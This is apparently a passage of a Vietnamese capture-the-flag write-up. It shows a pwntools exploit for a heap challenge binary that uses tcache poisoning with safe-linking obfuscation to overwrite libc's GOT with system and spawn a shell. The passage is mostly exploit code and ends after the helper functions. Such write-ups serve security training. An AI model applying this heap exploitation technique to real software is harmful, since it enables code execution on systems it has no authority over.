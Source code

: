 
- nó sẽ trông như sau: 

```python 
input()
read_note(1,0x30,p64(obfuscate(libc.address+0x21a070,0x8e0+heap_base)))   #overwrite fd của chunk 1 -> got libc 
add(1,0x40)  # nothing
add(2,0x40)  # đây là địa chỉ got libc 
log.info(f'system: {hex(libc.sym.system)}')
read_note(2,0x39,b'/bin/sh\x00'.ljust(0x28,b'a') + p64(libc.sym.system))  # ta sẽ ghi nó bằng /bin/sh và overwrite got với system

print_note(2)  # get shell
```

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
gdb.attach(p,gdbscript='''
           set follow-fork-mode parent
           brva 0x00000000000015EE
           brva 0x00000000000016CA
           brva 0x000000000000183F
           brva 0x0000000000001931

           ''')
def add(idx,Size):
    p.sendlineafter(b'Your choice: ',b'1')
    p.sendlineafter(b'Index: ',f'{idx}'.encode())
    p.sendlineafter(b'Size: ',f'{Size}'.encode())

def delete(idx):
    p.sendlineafter(b'choice: ',b'2')
    p.sendlineafter(b'Index: ',f'{idx}'.encode())

def read_note(idx,size,data):
    p.sendlineafter(b'choice: ',b'3')
    p.sendlineafter(b'Index: ',f'{idx}')
    p.sendlineafter(b'Size: ',f'{size}')
    p.send(data)

def print_note(idx):
    p.sendlineafter(b'choice: ',b'4')
    p.sendlineafter(b'Index: ',str(idx).encode())

def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)
```